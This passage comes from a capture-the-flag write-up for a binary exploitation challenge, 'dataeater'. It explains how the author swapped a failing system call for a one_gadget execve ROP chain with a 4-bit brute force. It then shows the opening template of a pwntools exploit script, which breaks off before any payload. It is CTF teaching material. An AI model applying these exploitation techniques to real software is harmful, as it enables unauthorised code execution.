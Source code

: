 I realised that this was because `system` used a shell to interpret the command.
Since environment variables were cleared at the start of `main`, `system` didn't know what shell
to use.

As a side note, `system` had a 1/16 chance of being accessible from a 2-byte overwrite of `scanf`,
which would have eliminated the need to restore our write primitive.
I originally tried this method, but it did not work for the same reason.

Instead of `system`, we can use `execve`, which is a bit more restrictive in terms of what
registers need to be controlled, but does not rely on a shell or environment variables.

I replaced my final rop gadgets with a ropchain that set R12 and R13 to NULL to satisfy a
one\_gadget condition, then wrote the address of the one\_gadget on the new ropchain.

This exploit does still rely on a 4-bit bruteforce to get the address of `dprintf`, but it works
reliably once this condition is met.

## Exploit

```py
#!/usr/bin/env python3
# -*- coding: utf-8 -*-
# This exploit template was generated via:
# $ pwn template --host mc.ax --port 31869 dataeater
from pwn import *

# Set up pwntools for the correct architecture
exe = context.binary = ELF('dataeater')
libc = ELF('libc6_2.31-17_amd64.so')

if args.LOCAL:
    libc = ELF('/usr/lib/libc-2.33.so')

# Many built-in settings can be controlled on the command-line and show up
# in "args".  For example, to dump all data sent/received, and disable ASLR
# for all created processes...
# ./exploit.py DEBUG NOASLR
# ./exploit.py GDB HOST=example.com PORT=4141
host = args.HOST or 'mc.ax'
port = int(args.PORT or 31869)

def start_local(argv=[], *a, **kw):
    '''Execute the target binary locally'''
    if args.GDB:
        return gdb.debug([exe.path] + argv, gdbscript=gdbscript, *a, **kw)
    else:
        return process([exe.path] + argv, *a, **kw)

def start_remote(argv=[], *a, **kw):
    '''Connect to the process on the remote host'''
    io = connect(host, port)
    if args.GDB:
        gdb.attach(io, gdbscript=gdbscript)
    return io

def start(argv=[], *a, **kw):
    '''Start the exploit against the target.'''
    if args.LOCAL:
        return start_local(argv, *a, **kw)
    else:
        return start_remote(argv, *a, **kw)

# Specify your GDB script here for debugging
# GDB will be launched if the exploit is run via e.g.
# ./exploit.py GDB
```